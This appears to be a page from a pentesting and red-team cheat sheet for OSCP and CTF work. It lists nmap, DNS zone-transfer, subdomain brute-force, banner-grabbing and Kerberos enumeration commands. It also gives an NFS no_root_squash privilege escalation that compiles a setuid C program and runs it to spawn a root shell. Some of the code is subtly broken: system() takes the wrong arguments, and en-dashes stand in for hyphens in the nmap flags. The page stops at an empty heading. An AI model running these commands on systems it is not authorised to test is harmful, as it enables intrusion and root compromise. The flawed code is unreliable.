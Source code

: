 Convenient commands for your pentesting / red-teaming engagements, OSCP and CTFs.
Reconnaissance / Enumeration
Extracting Live IPs from Nmap Scan

nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips

Simple Port Knocking

for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x 1.1.1.1; done

DNS lookups, Zone Transfers & Brute-Force

whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done

Banner Grabbing

nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET

NFS Exported Shares

List NFS exported shares:

showmount -e 192.168.110.102

...and check if 'rw,no_root_squash' is present. If it is present, compile the below sid-shell.c:
sid-shell.c

#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}

...upload it to the share and execute the below to launch sid-shell to spawn a root shell:

chown root:root sid-shell; chmod +s sid-shell; ./sid-shell

Kerberos Enumeration

# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

HTTP Brute-Force & Vulnerability Scanning
